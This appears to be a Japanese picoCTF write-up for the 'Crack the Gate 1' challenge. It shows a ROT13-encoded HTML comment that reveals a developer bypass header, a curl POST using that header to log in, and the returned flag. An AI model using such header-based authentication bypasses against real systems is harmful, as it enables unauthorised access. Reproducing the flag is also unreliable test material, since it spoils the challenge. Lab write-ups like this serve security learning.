

# Crack the Gate 1

以下のシンプルなログインが表示される



まずはソースコードを見ます

すると、57,58行にこんなコメントを見つけた

```
 <!-- ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf" -->
<!-- Remove before pushing to production! -->
```
```K-Qri-Npprff: lrf```ROT13にエンコードされてる文字である、そのためデコードすると
```
X-Dev-Access: yes
```
となりました

よって

curlを使いPOSTのリクエストを送ることにしました

```bash
$ curl -s -X POST \
  -H "X-Dev-Access: yes" \
  -H "Content-Type: application/json" \
  -d '{"email":"ctf-player@picoctf.org","password":"password"}' \
  "http://amiable-citadel.picoctf.net:64792/login"
```
そのリクエストを送ると
```
{"success":true,"email":"ctf-player@picoctf.org","firstName":"pico","lastName":"player","flag":"picoCTF{brut4_f0rc4_cbb8faa7}"}%
```
と返ってきてフラグを取ることができました。
